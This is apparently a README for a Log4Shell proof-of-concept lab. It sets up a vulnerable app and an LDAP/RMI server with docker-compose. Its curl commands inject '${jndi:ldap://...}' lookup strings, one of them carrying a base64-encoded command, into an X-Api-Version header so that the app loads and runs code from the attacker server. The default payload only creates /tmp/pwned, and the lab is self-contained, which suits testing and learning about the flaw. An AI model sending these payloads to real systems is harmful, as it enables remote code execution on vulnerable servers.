


log4shell POC

# Steps

1. Build the images
```bash
docker-compose build
```

2. config the command in `.env`, default is `touch /tmp/pwned`

3. Compose!
```bash
docker-compose up -d
```

4. The vuluerable app is up and the 8080 port is binded on the host machine.
To get the ldap payload, please see the log of the container `rmi-server`.



and make a request, e.g.

```bash
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://rmi-server:1389/7mqfuh}'
```

Or use `jndi-exploit` to send the payload, e.g.
```bash
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://jndi-exploit:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
```

5. Check the result, go to the console of the app.


